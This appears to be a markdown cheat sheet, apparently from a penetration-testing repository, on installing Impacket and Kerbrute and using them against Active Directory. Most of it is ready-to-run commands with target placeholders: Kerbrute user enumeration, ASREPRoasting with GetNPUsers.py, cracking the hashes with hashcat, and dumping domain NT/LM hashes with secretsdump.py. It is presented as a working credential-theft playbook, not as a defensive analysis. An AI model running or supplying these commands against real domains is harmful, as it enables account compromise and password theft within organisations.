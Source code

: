 # Impacket instalation

## Introduction

So you're likely here if you've had issues with Impacket. Impacket is moderately frustrating to say the least... A lot of people have issues with it, so let's walk through the Impacket install process!

## Installing Impacket

First, you'll want to clone the repo with:

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

This will clone Impacket to /opt/impacket/, after the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. Setup.py is commonly skipped during the installation. It's key that you DO NOT miss it.

So let's install the requirements:

```
pip3 install -r /opt/impacket/requirements.txt
```

Once all the python modules are installed, we can then run the python setup install script:

```
cd /opt/impacket/ && python3 ./setup.py install
```

After that, Impacket should be correctly installed now and it should be ready to use!

# Kerbrute

## Instalation
Clone the repository.

```
git clone https://github.com/ropnop/kerbrute.git /opt/kerbrute
cd /opt/kerbrute
```

With the repository cloned, you can also use the Make file to compile for common architectures:

```
make help
make all
```

Your new binaries will be inside `dist` directory.

## Usage

Enumerating users:

```
./kerbrute_linux_386 userenum --dc <RHOST> -d <domain> <userlist> 
```

# ASREPRoasting

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Exploitation

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```
python3 GetNPUsers.py <domain>/ -dc-ip <RHOST> -usersfile <usersfile>
```

Then crack dumped hashes.

```
hashcat -m 18200 <hashfile> <wordlist>
```

# secretsdump.py

For this command to work you will need to also know user's password.

```
secretsdump.py -dc-ip <RHOST> <username>@<RHOST>
```

When successfull, this will dump domain user's NT:LM hashes.
